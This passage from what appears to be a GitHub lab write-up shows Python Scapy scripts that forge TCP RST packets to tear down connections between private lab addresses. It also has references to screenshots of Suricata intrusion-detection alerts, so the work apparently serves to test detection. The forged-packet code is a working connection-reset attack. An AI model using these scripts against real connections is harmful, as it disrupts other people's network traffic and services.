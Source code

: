 ```python
for i in range(packet_count):
    pkt = IP(src=source_ip, dst=target_ip) / TCP(sport=source_port, dport=target_port, flags="R", seq=seq_number, ack=ack_number)
    send(pkt, verbose=0)
    print(f"Sent RST packet {i+1}/{packet_count}")
    time.sleep(interval)

print("Attack completed.")
```
Running the script after connection and placement of ack & seq no. :

![r12](https://github.com/user-attachments/assets/87207c1f-9fb7-4710-84ac-f4fb4da13a49)

Alerts shown by suricata:

![r13](https://github.com/user-attachments/assets/67d87041-b5e8-45dc-a483-8a49b7d0f7f9)


**Script 4: RST During Active connection**
```python
Script: 
from scapy.all import *

# Define the IP and TCP layer parameters
# Here, we specify the source IP address and destination IP address
src_ip = "192.168.100.51"
dst_ip = "192.168.100.50"

# Create an IP layer with the specified source and destination addresses
ip = IP(src=src_ip, dst=dst_ip)
print(f"IP Layer: {ip.summary()}")

# Define the TCP layer parameters
# Here, we specify the source port, destination port, and the TCP flag
src_port = 12345
dst_port = 12345
tcp_flag = "R"  # 'R' indicates a TCP Reset (RST) flag

# Create a TCP layer with the specified parameters
tcp = TCP(sport=src_port, dport=dst_port, flags=tcp_flag)
print(f"TCP Layer: {tcp.summary()}")

# Create the packet by stacking the IP and TCP layers
pkt = ip/tcp
print(f"Packet: {pkt.summary()}")
```
Running the script after connection and placement of ack & seq no. :

![r14](https://github.com/user-attachments/assets/5765319d-336e-4ffe-a856-6cc31fa325a5)

Suricata shows following alerts:

![r15](https://github.com/user-attachments/assets/0e407783-7cc5-45be-b759-4b0d331de40e)
